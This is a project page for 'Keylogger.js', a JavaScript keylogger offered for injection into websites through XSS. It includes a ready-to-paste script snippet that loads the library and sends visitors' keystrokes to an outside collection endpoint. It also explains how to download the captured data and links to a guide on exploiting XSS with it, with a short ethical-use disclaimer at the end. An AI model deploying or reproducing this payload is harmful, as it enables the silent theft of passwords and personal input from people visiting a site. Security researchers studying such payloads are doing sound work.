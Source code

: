 Keylogger.js is a ready-to-use keylogging library designed for hackers, security researchers, and penetration testers. It’s a lightweight JavaScript script that can be easily embedded in any website to track user input, making it an excellent tool for demonstrating the risks of Cross-Site Scripting (XSS) vulnerabilities.

The script is simple to use and highly versatile, allowing you to monitor user activity on websites while focusing on ethical applications. Keylogger.js is an excellent resource for anyone looking to learn more about web security, ethical hacking, or vulnerability exploitation.

## ./how-to-use-keylogger-js
This page also features a webhook that can be used to download the captured keystrokes. To use it:
- To integrate with your domain, [add the following TXT DNS record](https://www.id123.io/knowledgebase/adding-a-txt-record-to-a-dns-server/) to your domain's settings:
```txt
i-love-mihnea-dev
```
- Embed and initialize Keylogger.js in your HTML:
```html
<script>
    import Keylogger from 'https://unpkg.com/@mihnea.dev/keylogger.js/dist/index.js';
    const keylogger = new Keylogger('https://mihnea.dev/api/keylogger-js', false);
    console.log('Keylogger initialized:', keylogger);
</script>
```
- Search for your domain in [`./entries`](#entries) and download the captured key strokes.

> **IMORTANT: I'm using [Vercel's FREE Blob](https://vercel.com/docs/storage/vercel-blob) to store data, and there are some limitations to it!** Moreover, I am also deleting the data every once in a while, so make sure to download it as soon as possible.

## ./learn-more
If you want to dive deeper into how Keylogger.js works or explore its applications, check out these resources:
- [GitHub](https://github.com/mihneamanolache/keylogger.js/tree/main)
- [NPM](https://www.npmjs.com/package/@mihnea.dev/keylogger.js)
- [Keylogger.js - How to Exploit XSS Using Keylogging](https://mihnea.hashnode.dev/how-to-exploit-xss-using-keylogger-js)

## ./disclaimer 󰀦
Keylogger.js is a tool designed for ethical hacking and security research. Always ensure that you have explicit permission before deploying it on any application or website. Unauthorized use is illegal and unethical.
